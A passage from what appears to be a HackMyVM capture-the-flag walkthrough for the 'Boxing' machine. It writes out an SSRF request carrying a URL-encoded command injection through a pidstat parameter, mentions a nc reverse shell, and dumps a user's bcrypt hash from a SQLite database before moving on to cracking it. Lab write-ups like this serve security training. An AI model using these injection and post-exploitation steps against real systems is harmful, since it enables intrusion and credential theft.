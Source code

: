 ```bash
system+-e+id
# This above code does not work due to not url encoded so lets encode it then use it again 🔻
system%2B-e%2Bid
```
{: .nolineno}
![](Pasted%20image%2020250627094813.png)
_This pidstat command lets execute command like `id`_
```bash
└─$ curl -s -X POST "http://staging-env.boxing.hmv/index.php?url=http%3A%2F%2Fboxing.hmv%40127.0.0.1%3A5000?processName=system%2B-e%2Bid" | grep '<pre>' -A 4
<div class='output'><pre>Linux 6.1.0-17-amd64 (boxing) 	27/06/2025 	_x86_64_	(1 CPU)
uid=33(www-data) gid=33(www-data) groupes=33(www-data)

06:15:17      UID       PID    %usr %system  %guest   %wait    %CPU   CPU  Command
</pre></div></body>
```
{: .nolineno}
Lets have a shell through `nc` reverse shell command 🔽

![](Pasted%20image%2020250627095240.png)
_This let us execute a proper shell through `nc` command_

Lets do some enumeration after exploitation 🔽

```bash
www-data@boxing:~$ ls /var/www
ls /var/www
dev  html
www-data@boxing:~$ ls /var/www/dev
ls /var/www/dev
boxing_database.db  cache  index.php
www-data@boxing:~$ cd /var/www/dev
cd /var/www/dev
www-data@boxing:~/dev$ file boxing_database.db
file boxing_database.db
boxing_database.db: SQLite 3.x database, last written using SQLite version 3040001, file counter 5, database pages 6, cookie 0x4, schema 4, UTF-8, version-valid-for 5
www-data@boxing:~/dev$ sqlite3 boxing_database.db
sqlite3 boxing_database.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
.tables
fighters  matches   news      users   
sqlite> select * from users;
select * from users;
1|cassius|$2b$05$gPKe1EUBPZidX/j3qTDapeznU4CMfkpMd0sQhgehhhoG/pwc4OnVu
sqlite> .exit
.exit
www-data@boxing:~/dev$ 
```
{: .nolineno}
Lets crack this passsword for user <b><span style="color:rgb(0, 255, 145)">cassius</span></b> 🔻
